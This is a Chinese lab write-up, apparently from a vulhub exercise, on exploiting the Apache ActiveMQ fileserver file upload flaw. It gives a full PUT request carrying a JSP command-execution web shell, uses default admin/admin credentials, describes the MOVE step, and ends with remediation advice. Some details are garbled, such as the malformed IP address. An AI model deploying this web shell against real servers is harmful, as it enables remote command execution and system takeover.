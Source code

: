 #### ActiveMQ任意文件上传漏洞

该漏洞出现在fileserver应用中，ActiveMQ中的fileserver服务允许用户通过HTTP  PUT方法上传文件到指定目录。Fileserver支持写入文件(不解析jsp),但是支持移动文件(Move)我们可以将jsp的文件PUT到Fileserver下,然后再通过Move指令移动到可执行目录下访问

使用vulhub一键搭建，靶机kali：192.168.1771.37



```
docker-compose up -d
```

环境搭建成功，浏览器访问：http://IP:8161

![1](ActiveMQ任意文件上传漏洞\1.png)

![2](ActiveMQ任意文件上传漏洞\2.png)

登录admin账号：默认账号admin/admin，抓包进行修改，使用PUT方法上传文件。ActiveMQ  Web控制台分为三个应用程序：其中admin，api和fileserver，其中admin是管理员页面，api是界面，fileserver是用于存储文件的界面；admin和api需要先登录才能使用，fileserver不需要登录。

 上传jsp文件（系统不稳定，有时成功有时失败），

![3](ActiveMQ任意文件上传漏洞\3.png)
```
PUT /fileserver/2.jsp HTTP/1.1
Host: 192.168.177.137:8161
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: JSESSIONID=18wws8yzr1a04iz9gfpkkar3p
Authorization: Basic YWRtaW46YWRtaW4=
X-Forwarded-For: 8.8.8.8
Connection: close
Content-Length: 329

<%@ page import="java.io.*"%>
<%
 out.print("Hello</br>");
 String strcmd=request.getParameter("cmd");
 String line=null;
 Process p=Runtime.getRuntime().exec(strcmd);
 BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
 while((line=br.readLine())!=null){
 out.print(line+"</br>");
 }
%>

```

 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp



![4](ActiveMQ任意文件上传漏洞\4.png)

 使用MOVE方法移动文件，成功的包没截上，再次上传是500回显，文件已经上传成功，访问地址，成功解析jsp

![5](ActiveMQ任意文件上传漏洞\5.png)

![6](ActiveMQ任意文件上传漏洞\6.png)

 

漏洞影响版本：Apache ActiveMQ 5.x ~ 5.14.0

1、ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。

2、通过移除 `conf\jetty.xml` 的以下配置来禁用 ActiveMQ Fileserver 功能



![7](ActiveMQ任意文件上传漏洞\7.png)
